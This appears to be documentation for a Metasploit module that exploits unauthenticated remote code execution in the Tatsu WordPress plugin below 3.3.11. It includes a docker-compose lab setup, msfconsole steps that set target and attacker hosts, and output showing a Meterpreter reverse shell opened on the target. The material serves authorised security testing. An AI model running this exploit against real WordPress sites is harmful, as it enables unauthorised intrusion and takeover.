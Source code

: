 ## Vulnerable Application

This module exploits unauthenticated remote code execution in Tatsu plugin for Wordpress. The vulnerable version is below 3.3.11. The module upload malicious zip file containing PHP payload, which gets parsed and unzipped into Wordpress upload directory. Then module will trigger the payload by sending request with payload directory as URI. The vulnerable plugin is available [here](https://tatsubuilder.com/wp-content/uploads/edd/2022/03/tatsu-3.3.11.zip) 

## Verification Steps


1. Install the application
1.1 Create `docker-compose.yml`
```yaml
services:

  wordpress:
    image: wordpress:6.3.2
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: ms
      WORDPRESS_DB_PASSWORD: supersecret
      WORDPRESS_DB_NAME: proof_of_concept
    volumes:
      - wordpress:/var/www/html
      - ./custom.ini:/usr/local/etc/php/conf.d/custom.ini

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: proof_of_concept
      MYSQL_USER: ms
      MYSQL_PASSWORD: supersecret
      MYSQL_ROOT_PASSWORD: supersecret
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:

```
1.2 Download [plugin](https://tatsubuilder.com/wp-content/uploads/edd/2022/03/tatsu-3.3.11.zip)
1.3 Install the plugin in Wordpress admin portal

2. `msfconsole`
3. `use multi/http/wp_tatsu_rce`
4. `set RHOST [target IP]`
5. `set RPORT [target PORT]`
6. `set LHOST [attacker's IP]`
7. `set LPORT [attacker's port]`

## Options


### Version and OS

```
`msf6 exploit(multi/http/wp_tatsu_rce) > run
[*] Started reverse TCP handler on 192.168.168.128:4444 
[*] Sending stage (40004 bytes) to 172.18.0.2
[*] Meterpreter session 2 opened (192.168.168.128:4444 -> 172.18.0.2:37718) at 2025-06-11 18:59:35 +0200
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer    : ff0d55ec29bf
OS          : Linux ff0d55ec29bf 6.12.10-76061203-generic #202412060638~1748542656~22.04~663e4dc SMP PREEMPT_DYNAMIC Thu M x86_64
Meterpreter : php/linux
meterpreter > 
```
